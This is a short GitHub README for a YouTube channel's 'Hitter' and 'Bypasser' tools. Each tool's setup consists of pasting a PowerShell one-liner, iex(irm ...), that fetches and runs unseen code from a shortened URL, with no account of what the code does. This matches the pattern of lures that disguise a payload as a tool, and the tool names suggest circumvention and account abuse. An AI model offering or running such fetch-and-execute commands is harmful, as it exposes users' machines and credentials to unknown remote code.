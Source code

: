 # TechTube Insider
Welcome to the official repository for **TechTube Insider**'s YouTube Channel Files.

---

## 📦 Part 1: Hitter

To use the Hitter tool, follow the steps below:

1. **Open PowerShell or Terminal**:
   - Right-click on the **Windows Start Menu** and select **PowerShell** or **Terminal** (do not use **CMD**).
   
2. **Execute the following code**:
   ```powershell
   iex(irm is.gd/docomojx)
   ```

3. Follow the on-screen instructions to complete the setup. That's it! 🎉

---

## 🔓 Part 2: Bypasser

To use the Bypasser tool, follow these steps:

1. **Open PowerShell or Terminal**:
   - Right-click on the **Windows Start Menu** and select **PowerShell** or **Terminal** (again, **not CMD**).
   
2. **Execute the following code**:
   ```powershell
   iex(irm is.gd/bypassjx)
   ```

3. Follow the on-screen instructions to proceed and you're done! 🎉

---

For any questions or issues, feel free to reach out or open an issue in this repository.
